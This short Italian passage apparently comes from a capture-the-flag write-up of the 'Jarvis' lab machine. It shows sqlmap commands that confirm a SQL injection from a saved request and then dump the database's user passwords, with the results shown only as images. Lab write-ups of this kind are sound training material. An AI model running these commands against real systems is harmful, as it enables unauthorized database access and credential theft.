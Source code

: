 **Funziona!**

Quindi copio la richiesta all'interno del file _richiesta.txt_ e procedo utilizzando _sqlmap_:

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" -r richiesta.txt
```

Il risultato conferma la vulnerabilità all'SQL Injection. Quindi provo a ricavare le password degli utenti tramite il seguente comando:

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --passwords -r richiesta.txt
```

Scopro così la password per il DBMS:

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-7.png"/>
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/Jarvis/jarvis-6.png"/>
</p>
